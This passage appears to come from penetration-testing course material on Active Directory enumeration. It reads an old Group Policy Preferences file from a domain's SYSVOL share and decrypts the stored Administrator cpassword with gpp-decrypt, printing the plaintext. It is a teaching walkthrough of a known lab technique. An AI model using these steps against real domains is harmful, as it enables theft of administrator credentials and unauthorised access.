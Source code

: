```shell

PS C:\Tools> cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml
<?xml version="1.0" encoding="utf-8"?>
<Groups   clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
  <User   clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}"
          name="Administrator (built-in)"
          image="2"
          changed="2012-05-03 11:45:20"
          uid="{253F4D90-150A-4EFB-BCC8-6E894A9105F7}">
    <Properties
          action="U"
          newName=""
          fullName="admin"
          description="Change local admin"
          cpassword="+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
          changeLogon="0"
          noChange="0"
          neverExpires="0"
          acctDisabled="0"
          userName="Administrator (built-in)"
          expires="2016-02-10" />
  </User>
</Groups>
```

Due to the naming of the folder and the name of the file itself, it appears that this is an older domain policy file. This is a common artifact on domain shares as system administrators often forget them when implementing new policies. In this particular case, the XML file describes an old policy (helpful for learning more about the current policies) and an encrypted password for the local built-in Administrator account. The encrypted password could be extremely valuable for us. Historically, system administrators often changed local workstation passwords through _Group Policy Preferences_ (GPP).

However, even though GPP-stored passwords are encrypted with AES-256, the private key for the encryption has been posted on _MSDN_.[3](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/active-directory-introduction-and-enumeration/manual-enumeration-expanding-our-repertoire/enumerating-domain-shares#fn3) We can use this key to decrypt these encrypted passwords. In this case, we'll use the **gpp-decrypt** ruby script in Kali Linux that decrypts a given GPP encrypted string:

```bash
kali@kali:~$ gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
P@$$w0rd
```